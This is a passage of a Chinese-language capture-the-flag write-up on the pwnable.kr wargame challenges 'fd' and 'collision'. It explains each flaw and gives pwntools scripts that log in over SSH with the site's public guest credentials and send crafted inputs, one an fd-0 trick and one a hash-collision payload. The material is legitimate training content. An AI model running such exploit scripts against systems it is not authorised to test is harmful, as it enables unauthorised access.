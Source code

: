 所以我们只要让fd为0指向标准输入流 再输入“LETMEWIN\n”就行了

### Exp


```python
#coding=utf-8
from pwn import *

payload=str(0x1234)

shell=ssh(host='pwnable.kr',user='fd',password='guest',port=2222)
#shell.download_file('fd.c')
sh = shell.run('./fd'+' '+payload)
payload="LETMEWIN"
sh.sendline(payload)
sh.interactive()
```

## 0x02 collision

下载得到核心源码

```cpp
unsigned long hashcode = 0x21DD09EC;
unsigned long check_password(const char* p){
	int* ip = (int*)p;//把字符指针强转为int指针 char(1字节*4)->int(4字节)
	int i;
	int res=0;
	for(i=0; i<5; i++){
		res += ip[i];
	}
	return res;
}
```

怎么构造p呢，粗暴平均分。。。。除5有小数就调整一下

```
>>>hex(int(0x21DD09EC+1)/5)
'0x6c5cec9'
```

然后可以构造exp

### Exp

```python
#coding=utf-8
from pwn import *

payload=p32(0x6c5cec9)*4+p32(0x6c5cec8)

shell=ssh(host='pwnable.kr',user='col',password='guest',port=2222)
#shell.download_file('col.c')
sh = shell.run('./col'+' '+payload)
sh.interactive()
```
